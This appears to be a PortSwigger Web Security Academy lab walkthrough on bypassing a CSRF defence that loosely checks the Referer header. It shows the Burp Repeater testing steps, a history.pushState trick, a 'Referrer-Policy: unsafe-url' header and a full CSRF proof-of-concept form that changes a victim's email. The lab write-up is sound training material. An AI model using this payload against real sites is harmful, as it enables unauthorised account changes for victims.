![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/d2f34874-0da8-4fb3-972f-1b606d717afc)

### Solution

log in using the credentials and change the email and check the http history

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/62ef1ef7-eb87-44d5-802d-2b97c17acad4)

Send the request to Burp Repeater. Observe that if you change the domain in the Referer HTTP header, the request is rejected.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/b4ce10aa-de63-4dd8-9092-a1c3ecdb37be)

Copy the original domain of your lab instance and append it to the Referer header in the form of a query string.

```js
Referer: https://arbitrary-incorrect-domain.net?0a2a00f804f59b148050583c00280022.web-security-academy.net
```

Send the request and observe that it is now accepted. The website seems to accept any Referer header as long as it contains the expected domain somewhere in the string.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/b55a1a0e-7604-439b-909a-49d53e6823b0)

Create a CSRF proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab and host it on the exploit server. Edit the JavaScript so that the third argument of the history.pushState() function includes a query string with your lab instance URL as follows:

```js
history.pushState("", "", "/?0a2a00f804f59b148050583c00280022.web-security-academy.net")
```

This will cause the Referer header in the generated request to contain the URL of the target site in the query string, just like we tested earlier.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/97f4c6b2-3d21-493c-a37a-ea73448de121)

when we store and view the exploit it says invalid

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/421b1d4c-c713-436b-81d5-6d5cd718aa8f)

This is because many browsers now strip the query string from the Referer header by default as a security measure. To override this behavior and ensure that the full URL is included in the request, go back to the exploit server and add the following header to the "Head" section:

`
Referrer-Policy: unsafe-url
`

the word "referrer" must be spelled correctly here.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/e53d8bd2-f80d-4334-96ba-9cf5b7965009)

payload 

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a2a00f804f59b148050583c00280022.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="abcd&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState("", "", "/?0a84007a037bd49681013eee007a009d.web-security-academy.net")
    </script>
  </body>
</html>
```


![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/ced4833d-1602-426c-ae6c-4ac757d5c838)

lab solved
